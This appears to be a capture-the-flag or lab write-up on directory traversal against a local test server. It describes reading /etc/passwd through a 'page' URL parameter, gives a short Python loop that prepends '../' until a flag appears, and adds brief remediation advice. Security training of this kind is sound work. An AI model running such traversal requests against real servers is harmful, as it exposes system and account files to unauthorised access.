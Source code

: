 # Directory traversal

### Introduction
A directory traversal attack involves manipulating inputs to gain unauthorized access to files outside the intended directory or area.

### Procedure
By inspecting the website's requests, we can identify that the server used by the website is ``nginx/1.4.6 (Ubuntu)``. This information is crucial as it informs us about the operating system, which, in turn, gives insights into how files and directories are organized. One potentially interesting file to explore is ``/etc/passwd``. This file holds information about user accounts on the system and can be a significant source of details regarding the users and their privileges.

To access this file, we'll use the ``page`` parameter in the URL by successively adding ``../`` at the beginning of ``/etc/passwd`` until we successfully retrieve the desired information.

### Program
We will develop a program that sends requests to the server, gradually appending ``../`` at the start of ``/etc/passwd`` until the server's response contains the word ``flag`` at the very beginning of the page response. The program will end either upon finding the word ``flag`` or when it reaches the maximum number of loops.
```python
def try_directory(path: str, max: int = 20):
	for i in range(max):
		page = '/'.join(['..'] * i) + '/' + path

		response = requests.get(f'http://192.168.56.2/?page={page}')

		script = response.text.partition('\n')[0].split("'")[1::2]

		if len(script) > 0 and script[0].find("flag") != -1:
			return script[0]
```

### How to fix
To address this issue, it is recommended to implement strict access controls on specific directories, preventing users from exploring server directories. Additionally, ensure thorough validation and sanitization of all user inputs to mitigate the risk of unauthorized access and directory traversal.